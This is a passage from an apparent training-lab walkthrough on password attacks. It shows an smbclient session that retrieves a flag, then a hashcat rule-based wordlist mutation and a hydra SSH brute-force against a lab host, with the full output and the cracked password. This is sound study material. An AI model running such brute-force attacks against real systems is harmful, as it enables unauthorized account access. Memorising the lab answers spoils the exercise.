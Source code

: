 ```c
smbclient -U cassie \\\\10.129.212.54\\CASSIE
Password for [WORKGROUP\cassie]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Aug 11 22:03:56 2024
  ..                                 DR        0  Sun Aug 11 22:03:56 2024
  desktop.ini                       AHS      282  Thu Jan  6 19:44:52 2022
  flag.txt                            A       16  Thu Jan  6 19:46:14 2022

		10328063 blocks of size 4096. 6415584 blocks available
smb: \> get flag.txt
```

### Password Mutations

5. Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer. 

First we need to create a muted password list with custom.rule file
```c
hashcat --force password.list -r custom.rule --stdout > mut_password.list
```

HINT for not wasting hours in bruteforce. The password for "sam" is going to be related to Batman ;)
```c
nano batman.list
```

And in batman.list we initially add batman and that's it, we close this file and save
Then we need to mutate it:
```c
hashcat --force batman.list -r custom.rule --stdout > mut_batman.list
```

And finally start to bruteforce using hydra:
```c
hydra -l sam -P mut_batman.list ssh://10.129.202.64          

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-12 15:35:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 925 login tries (l:1/p:925), ~58 tries per task
[DATA] attacking ssh://10.129.202.64:22/
[STATUS] 106.00 tries/min, 106 tries in 00:01h, 822 to do in 00:08h, 13 active
[STATUS] 92.00 tries/min, 276 tries in 00:03h, 652 to do in 00:08h, 13 active
[STATUS] 85.71 tries/min, 600 tries in 00:07h, 328 to do in 00:04h, 13 active
[22][ssh] host: 10.129.202.64   login: sam   password: B@tm@n2022!
1 of 1 target successfully completed, 1 valid password found
```
